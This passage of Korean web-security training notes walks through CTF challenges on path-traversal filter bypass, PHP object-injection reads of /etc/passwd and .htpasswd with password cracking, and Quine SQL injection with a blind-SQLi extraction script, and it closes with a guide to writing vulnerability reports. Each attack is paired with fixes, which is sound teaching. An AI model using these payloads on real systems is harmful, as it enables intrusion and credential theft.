# 출력: ../down.cgi
```

**Step 2: 우회 페이로드 작성**

```
원본:  . . . . / / d o w n . c g i
필터:    ─┬─ ─┬─
         │   └─ ..// 제거
         └─ 남은 부분: ../

결과:  . . / d o w n . c g i
```

**Step 3: 파일 다운로드**

```bash
curl "http://target.com/down.cgi?file=....//down.cgi" -o down.cgi
```

**Step 4: include 파일 찾기**

down.cgi 소스 코드에서:

```perl
require "config.inc";
```

**Step 5: config.inc 다운로드**

```bash
curl "http://target.com/down.cgi?file=....//config.inc" -o config.inc
cat config.inc
```

**결과:**
```perl
$flag = "CTF{complex_filter_bypass}";
```

✅ **Flag 획득!**

#### 📊 필터 우회 패턴 정리

| 필터링 규칙 | 우회 페이로드 | 치환 후 결과 |
|:---|:---|:---|
| `./` 제거 | `..././` | `../` |
| `../` 제거 | `....//` | `../` |
| `..//` 제거 | `....//` | `../` |
| `.` 제거 (잘못된 방법) | 우회 불가능 | 완전 차단 |
| `/` 제거 (잘못된 방법) | 우회 불가능 | 완전 차단 |

💡 **핵심 교훈:**
> 필터링은 재귀적으로 수행하거나, 화이트리스트 방식을 사용해야 합니다. 단순 Replace는 항상 우회 가능합니다!

#### 📝 개선방안 비교

**❌ 나쁜 예: 단순 Replace**

```php
// 우회 가능
$file = str_replace("../", "", $file);
```

**⚠️ 조금 나은 예: 여러 패턴 필터링**

```php
// 여전히 우회 가능
$file = str_replace("../", "", $file);
$file = str_replace("..//", "", $file);
// ....//로 우회 가능
```

**✅ 올바른 예 1: 재귀적 필터링**

```php
// 치환이 더 이상 발생하지 않을 때까지 반복
while (strpos($file, '../') !== false || strpos($file, '..\\') !== false) {
    $file = str_replace(['../', '..\\'], '', $file);
}
```

**✅ 올바른 예 2: 개별 문자 필터링**

```php
// . 와 / 를 분리하여 필터링
$file = str_replace('.', '', $file);
$file = str_replace('/', '', $file);
```

**✅ 올바른 예 3: 정규식 검증**

```php
// 파일명 형식만 허용
if (!preg_match('/^[a-zA-Z0-9_\-]+\.[a-z]{2,4}$/', $file)) {
    die("Invalid filename");
}
```

**✅ 올바른 예 4: realpath() 활용**

```php
$base_dir = '/var/www/html/downloads/';
$file_path = $base_dir . $file;

// 실제 경로 확인
$real_path = realpath($file_path);

// 베이스 디렉토리 밖인지 확인
if ($real_path === false || strpos($real_path, $base_dir) !== 0) {
    die("Access Denied");
}

// 안전하게 파일 제공
readfile($real_path);
```

---

## ✅ Section 3 학습 체크리스트

- [ ] Insufficient Authentication 취약점을 이해하고 실습할 수 있다
  - [ ] Hash 값 변조를 통한 권한 상승
  - [ ] IDOR 개념 이해
- [ ] Path Traversal 기본 개념을 이해한다
  - [ ] `../` 를 사용한 상위 디렉토리 접근
- [ ] Replace 필터링 우회 기법을 이해한다
  - [ ] 중첩 삽입 기법 (`..././`)
  - [ ] 다양한 패턴 조합 (`....//`)
- [ ] File Download 취약점을 이해하고 실습할 수 있다
  - [ ] 임의 파일 다운로드
  - [ ] 소스 코드 노출
- [ ] 각 취약점에 대한 개선방안을 설명할 수 있다
  - [ ] 화이트리스트 방식
  - [ ] 경로 검증
  - [ ] 재귀적 필터링

## 📋 핵심 요약

### 1. Insufficient Authentication
- **원인**: 클라이언트가 제공한 Hash 값만 신뢰
- **공격**: Hash를 admin의 값으로 변조
- **개선**: 세션 기반 인증 + 권한 검증

### 2. Path Traversal - Replace 우회
- **원인**: 단순 Replace는 한 번만 실행됨
- **우회**: 중첩 삽입 (`..././`)
- **개선**: 재귀적 필터링 또는 화이트리스트

### 3. File Download
- **원인**: 사용자 입력으로 파일 경로 생성
- **공격**: 경로 조작으로 임의 파일 다운로드
- **개선**: 화이트리스트 + 경로 검증

### 4. 필터 우회 패턴

| 필터 | 우회 | 결과 |
|:---:|:---:|:---:|
| `./` | `..././` | `../` |
| `../` | `....//` | `../` |
| `..//` | `....//` | `../` |

### 5. 보안 개발 원칙
- ❌ **블랙리스트**: 차단 패턴 나열 (우회 가능)
- ✅ **화이트리스트**: 허용 패턴만 명시 (안전)

---

**다음 섹션 예고:**

지금까지는 기초적인 취약점을 다뤘습니다. 다음 섹션에서는 **고급 기법**을 배웁니다! Deserialization 취약점과 Quine SQL Injection 같은 복잡하고 흥미로운 공격 기법을 살펴보겠습니다. 특히 Quine SQL Injection은 민고님께서 발표해주신 매우 독특한 기법입니다!

---
## 🚀 Section 4: 고급 취약점 기법

### 4.1 Deserialization (역직렬화) 취약점

#### 📝 문제 개요

**문제명**: Deserialization
**취약점 유형**: Object Injection (객체 주입)
**난이도**: ⭐⭐⭐⭐☆

**발표자**: 고형님

**문제 상황:**
- PHP 직렬화(Serialization)된 데이터를 처리
- 입력값 검증 없이 unserialize() 수행
- 파일 경로를 조작하여 서버 내부 파일 접근 가능

#### 🔍 Serialization vs. Deserialization

**Serialization (직렬화)**
- 객체(Object)를 문자열로 변환하는 과정
- 데이터 저장이나 전송을 위해 사용

```php
$user = new User();
$user->name = "guest";
$user->role = "user";

$serialized = serialize($user);
// 출력: O:4:"User":2:{s:4:"name";s:5:"guest";s:4:"role";s:4:"user";}
```

**Deserialization (역직렬화)**
- 문자열을 다시 객체로 복원하는 과정

```php
$user = unserialize($serialized);
echo $user->name;  // "guest"
```



#### 🎯 취약점 분석 (고형님 발표 내용)

**Step 1: 초기 정찰**

페이지 접속 시 Burp Suite에서 확인한 요청:

```http
POST /page.php HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

data=TzoxMDoiRmlsZVJlYWRlciI6MTp7czo0OiJmaWxlIjtzOjEyOiJkZWZhdWx0LnR4dCI7fQ==
```

**data 파라미터 디코딩:**

```bash
# Base64 디코딩
echo "TzoxMDoiRmlsZVJlYWRlciI6MTp7czo0OiJmaWxlIjtzOjEyOiJkZWZhdWx0LnR4dCI7fQ==" | base64 -d
# 출력: O:10:"FileReader":1:{s:4:"file";s:12:"default.txt";}
```

**직렬화 데이터 구조:**
```
O:10:"FileReader":1:{s:4:"file";s:12:"default.txt";}
│  │   │         │  │  │   │      │  │    │
│  │   └ 클래스명  │  │  │   │      │  │    └ 파일명
│  └ 클래스명 길이  │  │  │   │      │  └ 값 길이
└ 객체 타입        │  │  │   │      └ 값
                  │  │  │   └ 속성명
                  │  │  └ 속성명 길이
                  │  └ 속성 타입 (string)
                  └ 속성 개수
```

**Step 2: 취약점 확인**



**Step 3: /etc/passwd 읽기 시도**

직렬화 데이터 구성:
```
O:10:"FileReader":1:{s:4:"file";s:11:"/etc/passwd";}
```

Base64 인코딩:
```bash
echo -n 'O:10:"FileReader":1:{s:4:"file";s:11:"/etc/passwd";}' | base64
# 출력: TzoxMDoiRmlsZVJlYWRlciI6MTp7czo0OiJmaWxlIjtzOjExOiIvZXRjL3Bhc3N3ZCI7fQ==
```

요청 전송:
```http
POST /page.php HTTP/1.1
...
data=TzoxMDoiRmlsZVJlYWRlciI6MTp7czo0OiJmaWxlIjtzOjExOiIvZXRjL3Bhc3N3ZCI7fQ==
```

**결과:**
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

✅ **/etc/passwd 파일 읽기 성공!**

**Step 4: Apache 설정 파일 확인**

```
O:10:"FileReader":1:{s:4:"file";s:26:"/etc/apache2/apache2.conf";}
```

설정 파일에서 발견:
```apache
# htpasswd 파일 위치
AuthUserFile /var/www/.htpasswd
```

**Step 5: .htpasswd 파일 읽기**

```
O:10:"FileReader":1:{s:4:"file";s:20:"/var/www/.htpasswd";}
```

파일 내용:
```
john:$apr1$X5d8f9G2$kL3m9nP0qR1sT2uV3wX4y5
```

**Step 6: John the Ripper로 비밀번호 크랙**

```bash
# .htpasswd 파일 저장
echo 'john:$apr1$X5d8f9G2$kL3m9nP0qR1sT2uV3wX4y5' > hash.txt

# John the Ripper 실행
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

# 결과
Loaded 1 password hash (md5crypt [MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (john)
```

**Step 7: 로그인 및 Flag 획득**

```
URL: /users/login.php
Username: john
Password: password123
→ Flag 획득!
```

#### 📊 취약점 요약

**취약점 유형**: PHP Object Injection

**발생 원인:**
1. **입력값 검증 부재**
   - 사용자가 전달한 직렬화 데이터를 그대로 unserialize()
   - 악의적인 객체 생성 가능

2. **Magic Method 악용**
   - `__destruct()` 등 매직 메서드가 자동 실행됨
   - 파일 읽기, 명령어 실행 등 위험한 동작 수행 가능

3. **파일 경로 검증 부재**
   - FileReader 객체의 file 속성에 제한 없음
   - 서버 내부 모든 파일 접근 가능

**영향:**
- 서버 내부 파일 읽기 (설정 파일, 소스 코드)
- 인증 정보 탈취 (.htpasswd, DB 비밀번호)
- 원격 코드 실행 (RCE) 가능성

**개선방안:**

1. **unserialize() 사용 금지**

   ```php
   // ❌ 위험한 코드
   $object = unserialize($_POST['data']);

   // ✅ 안전한 대안: JSON 사용
   $data = json_decode($_POST['data'], true);
   ```

2. **화이트리스트 기반 클래스 제한**

   ```php
   // PHP 7.0+
   $allowed_classes = ['SafeClass', 'AnotherSafeClass'];
   $object = unserialize($data, ['allowed_classes' => $allowed_classes]);
   ```

3. **Magic Method에서 위험한 동작 제거**

   ```php
   class FileReader {
       public $file;

       // ❌ 위험: 소멸자에서 파일 접근
       public function __destruct() {
           readfile($this->file);
       }
   }

   // ✅ 안전: 명시적 메서드 호출로 변경
   class FileReader {
       private $file;

       public function setFile($file) {
           // 파일 경로 검증
           if (!$this->isValidPath($file)) {
               throw new Exception("Invalid file path");
           }
           $this->file = $file;
       }

       public function readFile() {
           // 명시적으로 호출해야만 실행됨
           return file_get_contents($this->file);
       }
   }
   ```

4. **JSON으로 구조 변경**

   ```php
   // 직렬화 대신 JSON 사용
   $data = [
       'file' => 'default.txt'
   ];
   $json = json_encode($data);

   // 역직렬화 대신 JSON 디코딩
   $data = json_decode($json, true);

   // 허용된 파일 목록 확인
   $allowed_files = ['default.txt', 'about.txt'];
   if (!in_array($data['file'], $allowed_files)) {
       die("Access Denied");
   }
   ```

---

### 4.2 Quine SQL Injection - 자기 참조 쿼리

#### 📝 문제 개요

**문제명**: HackMe (최고난이도 문제)
**취약점 유형**: Blind SQL Injection + Quine SQL
**난이도**: ⭐⭐⭐⭐⭐ (500점)

**발표자**: 민고님

**문제 상황:**
- Blind SQL Injection 가능
- 하지만 특수한 인증 로직:
  - `row_id == get_id` 조건 검증
  - 페이로드 자체가 ID가 되어야 함
  - **자기 자신을 포함하는 쿼리** 필요!

#### 🧩 Quine이란?

**Quine (퀸)**
- 자기 자신의 소스 코드를 출력하는 프로그램
- 컴퓨터 과학의 재귀적 자기 참조 개념

**예시 (Python):**
```python
s='s=%r;print(s%%s)';print(s%s)
```

이 코드를 실행하면 자기 자신의 코드를 출력합니다!

#### 🔍 문제 분석 (민고님 발표 내용)

**Step 1: 데이터베이스 정보 추출**

Time-based Blind SQL Injection 스크립트로 DB 정보 추출:

```python
import requests
import time

def blind_sql(query):
    payload = f"admin' AND IF({query}, SLEEP(3), 0) -- "
    start = time.time()
    r = requests.post(url, data={'id': payload, 'pw': 'test'})
    elapsed = time.time() - start
    return elapsed > 3  # 3초 이상 지연되면 True

# DB명 추출
db_name = ""
for i in range(1, 20):
    for c in "abcdefghijklmnopqrstuvwxyz":
        if blind_sql(f"SUBSTRING(DATABASE(), {i}, 1)='{c}'"):
            db_name += c
            break
print(f"DB name: {db_name}")  # 출력: hackme
```

**결과:**
- DB명: `hackme`
- 테이블명: `users`
- 컬럼명: `id`, `password`
- Admin ID: `admin`
- Admin PW (Hash): `hackme_if_you_can`

**Step 2: 인증 로직 분석**

```php
// 추정되는 코드 로직
$id = $_POST['id'];
$pw = $_POST['pw'];

// SQL 쿼리
$query = "SELECT id, password FROM users WHERE id='$id'";
$result = mysqli_query($conn, $query);
$row = mysqli_fetch_assoc($result);

// 인증 검증
if ($row['id'] == $id) {  // ← 첫 번째 조건
    $pw_hash = md5($pw);
    if ($row['password'] == $pw_hash) {  // ← 두 번째 조건
        echo "Login Success! Flag: ...";
    }
}
```

**문제점:**
1. `row['id']`는 DB에서 조회된 ID
2. `$id`는 사용자가 입력한 ID (SQL Injection 페이로드 포함)
3. **두 값이 같아야 함!**
4. 비밀번호는 `hackme_if_you_can`의 MD5 Hash와 비교
   - 하지만 우리가 입력한 비밀번호를 MD5로 Hash화하면
   - `hackme_if_you_can`과 절대 같을 수 없음 (Hash 값이므로)

**핵심 문제:**
```
row['id'] = DB에서 반환된 값
get_id   = 사용자가 입력한 값 (페이로드)

조건: row['id'] == get_id
즉, 페이로드 자체가 DB에서 반환되어야 함!
```

#### 💡 해결 방법: Quine SQL Injection

**아이디어:**
- UNION을 사용하여 커스텀 데이터 SELECT
- 페이로드 자체를 ID로 반환
- 비밀번호는 우리가 원하는 Hash 값으로 반환

**기본 구조:**
```sql
' UNION SELECT '페이로드 자체', '우리가 생성한 Hash' --
```

**문제:** 페이로드 자체를 어떻게 SQL에 넣을까?
→ **Quine SQL** 사용!

#### 🎯 Quine SQL 구조 분석

**최종 페이로드:**
```sql
'UNION SELECT REPLACE(REPLACE('$',CHAR(34),CHAR(39)),CHAR(36),'$'),'428d0e3e5cdc1ae9e7d6ec94c7c5d421'--
```

**변수 정의:**
```
$ = 'UNION SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$"),"428d0e3e5cdc1ae9e7d6ec94c7c5d421"--
```

**작동 원리:**



**Step 1: Replace 함수 이해**

```sql
REPLACE(REPLACE('$', CHAR(34), CHAR(39)), CHAR(36), '$')
         └──────┬──────┘  └──┬──┘  └──┬──┘  └──┬──┘  └─┬─┘
                │           │        │        │       │
                │           │        │        │       └─ 치환할 값: $
                │           │        │        └─ 찾을 값: CHAR(36) = '$'
                │           │        └─ 치환할 값: CHAR(39) = '
                │           └─ 찾을 값: CHAR(34) = "
                └─ 대상 문자열
```

**Step 2: 1차 치환 (큰따옴표 → 작은따옴표)**

```
원본 $:
'UNION SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$"),"428d..."--

1차 치환 후:
'UNION SELECT REPLACE(REPLACE('$',CHAR(34),CHAR(39)),CHAR(36),'$'),'428d..."--
                               └─┘                          └─┘
                           작은따옴표로 변경됨
```

**Step 3: 2차 치환 ($ → 전체 페이로드)**

```
1차 치환 결과에서 '$'를 찾아 전체 페이로드로 치환:
'UNION SELECT REPLACE(REPLACE('$',CHAR(34),CHAR(39)),CHAR(36),'$'),'428d..."--
                               ↑                              ↑
                            이 두 개의 $를 페이로드로 치환

최종 결과:
'UNION SELECT REPLACE(REPLACE('[전체페이로드]',CHAR(34),CHAR(39)),CHAR(36),'[전체페이로드]'),'428d..."--

= 원본 페이로드와 동일!
```

#### 🔧 공격 시나리오



**Step 1: MD5 Hash 생성**

```bash
echo -n "test" | md5
# 출력: 098f6bcd4621d373cade4e832627b4f6
```

**Step 2: Quine 페이로드 구성**

```
A = 'UNION SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$"),"098f6bcd4621d373cade4e832627b4f6"--

최종 페이로드:
'UNION SELECT REPLACE(REPLACE('A',CHAR(34),CHAR(39)),CHAR(36),'A'),'098f6bcd4621d373cade4e832627b4f6'--
```

**Step 3: 로그인 요청**

```http
POST /login.php HTTP/1.1
...
id='UNION SELECT REPLACE(REPLACE('...',CHAR(34),CHAR(39)),CHAR(36),'...'),'098f...'--
&pw=test
```

✅ **Flag 획득!**

#### 📊 취약점 요약

**취약점 유형**: SQL Injection + 잘못된 인증 로직

**발생 원인:**
1. **SQL Injection 취약점**
   - 입력값 검증 부재
   - Prepared Statement 미사용

2. **잘못된 인증 로직**
   - 사용자 입력값과 DB 조회 결과를 직접 비교
   - UNION을 통한 인증 우회 가능

3. **Hash 비교 로직 문제**
   - 저장된 비밀번호가 이미 Hash 값
   - 사용자 입력을 Hash화하여 비교하면 절대 일치할 수 없음

**영향:**
- 인증 우회
- 관리자 권한 획득
- 데이터 탈취

**개선방안:**

1. **Prepared Statement 사용**

   ```php
   // ❌ 취약한 코드
   $query = "SELECT id, password FROM users WHERE id='$id'";

   // ✅ 안전한 코드
   $stmt = $mysqli->prepare("SELECT id, password FROM users WHERE id=?");
   $stmt->bind_param("s", $id);
   $stmt->execute();
   ```

2. **인증 로직 개선**

   ```php
   // ❌ 잘못된 로직
   if ($row['id'] == $id) {
       // 인증 성공
   }

   // ✅ 올바른 로직
   // DB 조회 결과가 있는지만 확인
   if ($row) {
       // 세션에 사용자 정보 저장
       $_SESSION['user_id'] = $row['id'];
   }
   ```

3. **비밀번호 검증 로직 수정**

   ```php
   // ❌ 잘못된 로직 (저장된 값이 Hash인 경우)
   $input_hash = md5($input_pw);
   if ($row['password'] == $input_hash) {
       // 절대 일치할 수 없음!
   }

   // ✅ 올바른 로직 1: 입력값을 Hash화하여 저장
   // 회원가입 시
   $pw_hash = password_hash($pw, PASSWORD_DEFAULT);
   // INSERT INTO users ... VALUES (..., '$pw_hash')

   // 로그인 시
   if (password_verify($input_pw, $row['password'])) {
       // 인증 성공
   }

   // ✅ 올바른 로직 2: 평문 비밀번호 저장 (비권장)
   if ($row['password'] == $input_pw) {
       // 인증 성공 (하지만 DB 노출 시 위험)
   }
   ```

---

## ✅ Section 4 학습 체크리스트

- [ ] Serialization과 Deserialization의 개념을 이해한다
- [ ] PHP Object Injection 취약점을 설명할 수 있다
- [ ] Magic Method(__destruct__)의 위험성을 인식한다
- [ ] unserialize() 대신 JSON을 사용하는 이유를 안다
- [ ] Quine의 개념을 이해한다
- [ ] Quine SQL Injection의 작동 원리를 이해한다
- [ ] 자기 참조 쿼리의 구조를 분석할 수 있다
- [ ] Prepared Statement의 중요성을 인식한다

## 📋 핵심 요약

### 1. Deserialization 취약점
- **원인**: unserialize()에 사용자 입력 전달
- **공격**: 악의적 객체 주입 → Magic Method 실행
- **영향**: 파일 읽기, RCE
- **개선**: JSON 사용, 화이트리스트

### 2. Quine SQL Injection
- **원인**: SQL Injection + 잘못된 인증 로직
- **공격**: 자기 참조 쿼리로 인증 우회
- **핵심**: REPLACE 함수로 자기 자신 생성
- **개선**: Prepared Statement

### 3. 고급 공격의 특징
- 복잡한 논리 구조
- 깊은 시스템 이해 필요
- 창의적 사고 요구
- 하지만 근본 원인은 동일: **입력 검증 부재**

### 4. 방어의 기본 원칙
- ✅ 사용자 입력을 절대 신뢰하지 않기
- ✅ Prepared Statement 사용
- ✅ 위험한 함수 사용 금지 (unserialize, eval 등)
- ✅ 최소 권한 원칙
- ✅ 깊이 있는 방어(Defense in Depth)

---

**다음 섹션 예고:**

고급 기법까지 배웠으니, 이제 실무의 핵심인 **보고서 작성**을 배워봅시다! 취약점을 발견하는 것도 중요하지만, 그것을 어떻게 개선해야 하는지 전문적으로 조언하는 것이 컨설턴트의 진정한 역량입니다. 실전 보고서 작성법을 익혀봅시다!

---
## 📝 Section 5: 취약점 점검 보고서 작성

### 5.1 보고서 작성의 중요성

#### 💼 컨설팅의 본질

💡 **강사님의 핵심 메시지:**
> "취약점을 찾는 것만이 사실은 다가 아니구요. 더 중요한 건 어떻게 고쳐야 됩니다 이런 얘기 하는 게 중요한 부분이다 보니까, 역시 컨설팅의 영역이라고 볼 수 있겠는데."

**컨설팅의 정의:**
- 전문적인 지식을 바탕으로 상담이나 조언을 해주는 일
- 취약점 진단도 "어떻게 고쳐야 하는가"를 조언하는 컨설팅

**보고서의 역할:**
1. **취약점 현황 전달**: 무엇이 문제인지
2. **개선방안 제시**: 어떻게 고쳐야 하는지 (**핵심!**)
3. **실행 가능성 확보**: 개발팀이 실제로 적용할 수 있도록

#### 🎯 왜 개선방안이 더 중요한가?

**취약점 발견 vs. 개선방안:**

| 구분 | 취약점 발견 | 개선방안 제시 |
|:---:|:---|:---|
| **난이도** | 상대적으로 쉬움 | 더 어려움 |
| **필요 역량** | 공격 기법 지식 | 개발 지식 + 보안 지식 |
| **가치** | "문제가 있다" | "이렇게 해결하라" |
| **실행성** | 낮음 | 높음 (실제 코드 예시 제공) |

💡 **중요!**
> "개선방안을 쓰는 거 한번 해봤구요. 실제로는 어쨌든 기술적으로 우리가 취약점 진단을 하는 것도 보안 컨설팅의 한 영역이죠. 오히려 더 어려울 수 있죠. 그런 법이나 인증 기준을 충족하기 위해서 이렇게 해야 된다라고 하는 것보다 어찌 보면 더 어려울 수도 있어요."

---

### 5.2 보고서 구조 및 양식

#### 📋 표준 보고서 구조

**1. 표지**
- 프로젝트명
- 고객사명
- 점검 기간
- 작성일
- 작성자

**2. 목차**
- 자동 생성 (MS Word 기능 활용)

**3. 개요**
- 점검 목적
- 점검 대상
- 점검 범위
- 점검 방법론

**4. 점검 결과 요약**
- 발견된 취약점 통계
- 심각도별 분포
- 주요 취약점 목록

**5. 상세 취약점 분석** (**핵심 섹션**)
- 취약점별 상세 내용
- 현황
- 개선방안

**6. 종합 의견**
- 전반적인 보안 수준 평가
- 우선순위 권고사항

**7. 부록**
- 점검 도구 목록
- 참고 자료

#### 📄 취약점 항목 상세 구조

각 취약점마다 아래 구조로 작성:

```markdown
### 취약점 N: [취약점명]

#### 1. 기본 정보

| 항목 | 내용 |
|:---:|:---|
| **발견 위치** | 메뉴명 또는 URL |
| **URL** | https://example.com/vulnerable_page |
| **파라미터** | id, file, search 등 |
| **심각도** | 상/중/하 |
| **영향도** | 설명 |

#### 2. 현황

간단한 설명 및 스크린샷

#### 3. 상세 분석

**Step 1: [단계명]**
- 설명
- 캡처 이미지

**Step 2: [단계명]**
- 설명
- 캡처 이미지

#### 4. 개선방안

**방안 1: [방안명]**
- 설명
- 코드 예시

**방안 2: [방안명]**
- 설명
- 코드 예시
```

---

### 5.3 현황 작성 가이드

#### ✍️ 현황 작성 원칙

**DO (해야 할 것):**
- ✅ 간결하고 명확하게
- ✅ 기술적 용어 정확히 사용
- ✅ 재현 가능한 단계 제시
- ✅ 스크린샷으로 시각화

**DON'T (하지 말아야 할 것):**
- ❌ 장황한 설명
- ❌ 불필요한 배경 설명
- ❌ 애매모호한 표현
- ❌ 캡처 없이 텍스트만

#### 📸 스크린샷 촬영 가이드

**필수 캡처 항목:**
1. **초기 화면**: 취약점이 있는 페이지
2. **공격 요청**: Burp Suite 등에서 요청 내용
3. **공격 응답**: 서버 응답 결과
4. **최종 결과**: Flag 획득 또는 영향 확인

**캡처 시 주의사항:**
- 중요 정보 하이라이트 (빨간 박스, 화살표)
- 전체 흐름을 이해할 수 있도록 순서대로
- 민감 정보 마스킹 (실제 보고서인 경우)

#### 📝 현황 작성 예시

**예시 1: SQL Injection**

```markdown
#### 2. 현황

로그인 페이지에서 ID 파라미터에 SQL Injection이 가능한 것으로 확인되었습니다.

싱글 쿼터(')를 삽입하여 SQL 쿼리를 조작할 수 있으며, 이를 통해 데이터베이스 내부 정보를 추출할 수 있습니다.

#### 3. 상세 분석

**Step 1: SQL Injection 가능 여부 확인**

ID 파라미터에 싱글 쿼터를 삽입하여 SQL 오류 발생 여부를 확인하였습니다.

[캡처: SQL 오류 메시지]

**Step 2: Blind SQL Injection을 통한 DB명 추출**

Time-based Blind SQL Injection 기법을 사용하여 데이터베이스명을 추출하였습니다.

페이로드:
```sql
admin' AND IF(SUBSTRING(DATABASE(),1,1)='h', SLEEP(3), 0) --
```

응답 시간이 3초 이상 지연되는 것으로 DB명의 첫 글자가 'h'임을 확인하였습니다.

